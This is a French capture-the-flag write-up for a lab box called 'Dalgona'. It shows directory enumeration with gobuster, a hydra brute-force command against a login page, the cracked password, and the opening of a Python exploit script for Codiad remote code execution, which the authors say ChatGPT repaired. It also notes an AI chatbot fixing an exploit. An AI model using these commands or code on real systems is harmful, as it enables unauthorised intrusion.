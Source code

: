 # Dalgona 🔳🔳

## Récupération du `user.txt`

> EPI{900d_ra1n_kN0w2_73H_B357_71m3_70_phALL}

En utilisant gobuster on s'aperçoit qu'un url `/lick` est disponible sur localhost.

```bash
gobuster dir -u <target> -w <wordlist_path>
```

![01](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/53731384-bc7e-4dc5-b261-e5fff22d563f)

En accédant à la page `http://<target>/lick`, on arrive sur une page de connexion.

![03](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/4603b698-081f-45ef-828a-a59864ae8569)

On peut bruteforcer le mot de passe de l'utilisateur `player456` grâce à `hydra`.

```bash
hydra -l player456 -P <wordlist> <target> http-get /lick/ide/ -I -t 64
```

![02](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/1e10361b-23c0-46f8-8411-7754fc207587)

> Le mot de passe est `sugardaddy`

En entrant les identifiants de l'utilisateur `player456` on accède à l'interface de `Codiad`.

![04](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/552fb472-bda5-4c19-b59d-105862b4843a)

En cherchant sur internet, on est tombés sur [ce repository](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) qui permet d'exploiter des failles sur `Codiad`. En donnant ce code à chatgpt car il n'était plus fonctionnel, il nous a ressortit le code ci-dessous.

![09](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/8d1357e7-bb60-4f25-b428-6b6500c19520)

```python
#!/usr/bin/env python
# encoding: utf-8

import requests
import sys
import json
import base64

session = requests.Session()

def login(domain, username, password):
    global session
    url = domain + "/components/user/controller.php?action=authenticate"
    data = {
        "username": username,
        "password": password,
        "theme": "default",
        "language": "en"
    }
    response = session.post(url, data=data, verify=False)
    content = response.content.decode('utf-8')
    print("[+] Login Content : %s" % (content))
    if 'status":"success"' in content:
        return True


def get_write_able_path(domain):
```